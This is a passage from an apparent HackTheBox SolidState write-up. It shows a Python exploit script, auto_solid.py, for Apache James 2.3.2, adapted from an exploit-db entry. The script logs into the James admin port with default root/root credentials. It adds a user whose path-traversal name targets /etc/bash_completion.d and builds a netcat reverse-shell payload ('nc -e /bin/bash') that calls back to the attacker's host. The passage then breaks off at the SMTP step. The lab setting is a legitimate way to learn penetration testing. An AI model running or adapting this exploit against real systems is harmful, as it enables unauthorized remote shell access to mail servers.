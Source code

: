 ```py
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-17-HackTheBox-SolidState/2021-12-17-HackTheBox-SolidState%2007:41:00.png)

auto_solid.py

```py
#!/usr/bin/python3
# Exploit got from: https://www.exploit-db.com/exploits/35513
# Exploit for SolidState - HackTheBox
# James 2.3.2 Vulnerability
# Author: 0x4rt3mis

import argparse
import requests
import sys
import socket
import time
import subprocess
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()
global user
global pwd
user = b'root'
pwd = b'root'

'''Here come the Functions'''
def recv(s):
    s.recv(1024)
    time.sleep(0.2)

def SendPayload(rhost,lhost,lport):
    payload = "/bin/nc -e /bin/bash %s %s" %(lhost,lport)
    print("[+] Connecting to James Remote Administration Tool...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((rhost,4555))
    s.recv(1024)
    s.send(user + b"\n")
    s.recv(1024)
    s.send(pwd + b"\n")
    s.recv(1024)
    print("[+] Creating user...")
    s.send(b"adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send(b"quit\n")
    s.close()

    print("[+] Connecting to James SMTP server...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((rhost,25))
    s.send(b"ehlo team@team.pl\r\n")
```